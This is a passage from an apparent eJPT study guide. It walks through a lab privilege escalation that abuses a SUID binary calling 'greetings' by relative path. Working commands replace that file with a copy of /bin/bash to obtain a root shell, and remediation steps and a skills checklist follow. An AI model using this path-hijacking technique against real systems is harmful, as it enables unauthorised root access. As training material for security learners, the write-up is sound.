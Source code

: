 ```markdown

# Key findings:
# 1. SUID binary 'welcome' found in user directory
# 2. Binary calls 'greetings' without full path
# 3. Current directory contains both binaries
# 4. Replacement attack vector identified
```

### Proof of Concept:
```bash
# Exploitation sequence:
student@target:~$ ls -la
-rwsr-sr-x 1 root root 8344 Sep 22  2018 welcome

student@target:~$ strings welcome | grep greetings
greetings

student@target:~$ rm greetings
student@target:~$ cp /bin/bash greetings
student@target:~$ ./welcome
root@target:/home/student#

# Privilege verification:
root@target:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
```

### Security Implications:
1. **Complete System Compromise:** Attacker gains root access
2. **Data Exposure:** All system files become accessible
3. **Lateral Movement:** Potential for network propagation
4. **Persistence:** Ability to install backdoors and maintain access

### Remediation Steps:
```bash
# Immediate fixes:
chmod -s /home/student/welcome    # Remove SUID bit
rm /home/student/welcome          # Remove vulnerable binary

# Code fixes (for developers):
// Instead of: system("greetings");
// Use: system("/usr/local/bin/greetings");

// Better approach: avoid system() entirely
execve("/usr/local/bin/greetings", args, env);
```
```

---

## 🎓 Study Guide for eJPT Success

### **Essential Knowledge Checklist:**
- [ ] Understand Linux file permissions (read, write, execute)
- [ ] Know what SUID and SGID bits do
- [ ] Can identify SUID binaries using find command
- [ ] Understand how to analyze binaries with strings
- [ ] Know common binary replacement attack techniques
- [ ] Can verify privilege escalation success
- [ ] Understand path hijacking vulnerabilities
- [ ] Know how to document findings properly

### **Practical Skills Checklist:**
```